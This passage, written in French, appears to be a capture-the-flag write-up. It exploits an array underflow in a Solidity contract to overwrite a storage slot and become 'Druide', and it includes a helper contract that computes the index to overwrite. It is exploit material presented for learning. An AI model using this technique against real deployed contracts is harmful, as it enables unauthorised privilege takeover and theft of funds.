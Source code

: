 Une fois l'underflow provoqué, il est possible de modifier n'importe quel slot du smart contract. Dans cet exemple, pour devenir Druide, il faut être dans le mapping `druide`. Les variables des mappings sont stockées dans des slots définis de la façon suivante :

`slot = keccak256(key, slot du mapping)`

Il est possible de calculer cette valeur en utilisant la fonction solidity `findMapLocation`.

Les tableaux dynamiques en Solidity sont stockés de cette façon :

`slot = keccak256(slot du tableau)`

Il est possible de calculer cette valeur en utilisant la fonction solidity `arrLocation`.

En combinant ces deux fonctions, il est possible de calculer l'adresse à modifier pour devenir Druide, comme le montre le smart contract `Calcul`.

[lien vers un article expliquant les underflow sur les tableaux](https://medium.com/@fifiteen82726/solidity-attack-array-underflow-1dc67163948a)

Voici un smartcontract qui retourne l'adresse à réecrire pour devenir Druide : 
```js
    pragma solidity 0.8.19;

    contract Calcul{
        function findMapLocation(uint256 slot, address key) public pure returns (uint256) {
            return uint256(keccak256(abi.encode(key, slot)));
        }

        function arrLocation(uint256 slot) public pure returns (uint256) {
            return uint256(keccak256(abi.encodePacked(slot))) ;
        }

        function calculOverWriting(uint256 slotMapping, address keyMapping, uint256 slotArray) public returns (uint256) {
            uint256 targetMappingAddr = findMapLocation(slotMapping, keyMapping);
            uint256 addrArray = arrLocation(slotArray);
            uint256 indexOverwriting;
            if (targetMappingAddr > addrArray) {
                indexOverwriting = targetMappingAddr - addrArray;
            } else {
                indexOverwriting = type(uint256).max - addrArray + targetMappingAddr - 1;
            }
            return indexOverwriting;
        }

    }
```
### La magie

Pour appeler la function `popHerb()`, il faut valider la condition la condition du modifier suivant : 

    modifier __(){
        require(msg.sender == address(this), "only this can call this");
        _;
    }
